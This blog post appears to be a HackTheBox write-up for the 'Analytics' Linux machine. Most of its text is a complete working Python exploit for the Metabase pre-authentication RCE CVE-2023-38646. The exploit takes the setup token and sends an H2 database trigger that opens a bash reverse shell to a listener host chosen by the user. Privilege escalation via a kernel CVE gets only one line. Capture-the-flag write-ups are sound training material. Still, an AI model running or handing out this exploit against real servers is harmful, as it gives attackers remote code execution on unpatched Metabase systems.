 ```yaml
---
layout: post
title: "Analytics-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/f86fcf4c1cfcc690b43f43e100f89718.webp
---
```


# Analytics

HackTheBox: Medium

<aside>
💡 Analytics is a linux machine where we can exploit some vulnerabilities(**RCE vulnerability**), and learn the importance of save sensitive information.

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled.png' | relative_url }})
<br/><br/>
Let’s look around http service
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_1.png' | relative_url }})
<br/><br/>
A login interface change to this subdomain
<br/><br/>
Metabase has a vulnerability (CVE-2023-38646)
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
Use this POC
<br/><br/>
```bash
import requests
import argparse
import base64
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from urllib.parse import urlparse

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_setup_token_and_version(ip_address):
    endpoint = "/api/session/properties"
    url = f"{ip_address}{endpoint}"
    try:
        print(f"[DEBUG] Fetching setup token from {url}...")
        response = requests.get(url, verify=False)
        if response.status_code == 200:
            data = response.json()
            setup_token = data.get("setup-token")
            metabase_version = data.get("version", {}).get("tag")

            if setup_token is None:
                print(f"[DEBUG] Setup token not found or is null for IP: {ip_address}\n")
            else:
                print(f"[DEBUG] Setup Token: {setup_token}")
                print(f"[DEBUG] Version: {metabase_version}")

            return setup_token
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {ip_address}.\n")

def post_setup_validate(ip_address, setup_token, listener_ip, listener_port):
    payload = base64.b64encode(f"bash -c 'bash -i >&/dev/tcp/{listener_ip}/{listener_port} 0>&1'".encode()).decode()

    print(f"[DEBUG] Payload = {payload}")

    endpoint = "/api/setup/validate"
    url = f"{ip_address}{endpoint}"
    headers = {'Content-Type': 'application/json'}
    data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "test",
            "engine": "h2"
        }
    }

    print(f"[DEBUG] Sending request to {url} with headers {headers} and data {json.dumps(data, indent=4)}")

    try:
        response = requests.post(url, headers=headers, json=data, verify=False)
        print(f"[DEBUG] Response received: {response.text}")
        if response.status_code == 200:
            print(f"[DEBUG] POST to {url} successful.\n")
        else:
            print(f"[DEBUG] POST to {url} failed with status code: {response.status_code}\n")
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {url}\n")

def preprocess_url(user_input):
    parsed_url = urlparse(user_input)
    protocol = f"{parsed_url.scheme}://" if parsed_url.scheme else "http://"
    netloc = parsed_url.netloc or parsed_url.path
    return protocol + netloc.rstrip('/')

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Check setup token')
    parser.add_argument('--rhost', type=str, help='Metabase server IP address (including http:// or https:// and port number if needed)')
    parser.add_argument('--lhost', type=str, help='Listener IP address')
    parser.add_argument('--lport', type=int, default=4444, help='Listener port (default is 4444)')
    args = parser.parse_args()

    print(f"[DEBUG] Original rhost: {args.rhost}")
    args.rhost = preprocess_url(args.rhost)
    print(f"[DEBUG] Preprocessed rhost: {args.rhost}")

    print(f"[DEBUG] Input Arguments - rhost: {args.rhost}, lhost: {args.lhost}, lport: {args.lport}")

    setup_token = get_setup_token_and_version(args.rhost)
    print(f"[DEBUG] Setup token: {setup_token}")
    if setup_token:
        post_setup_validate(args.rhost, setup_token, args.lhost, args.lport)
```
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_3.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_4.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_5.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_6.png' | relative_url }})
<br/><br/>
We see a kernel with an outdated version (CVE-2023-2640)
<br/><br/>
Just give it executable premises after downloaded it on tmp
<br/><br/>
We’ve got root flag
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
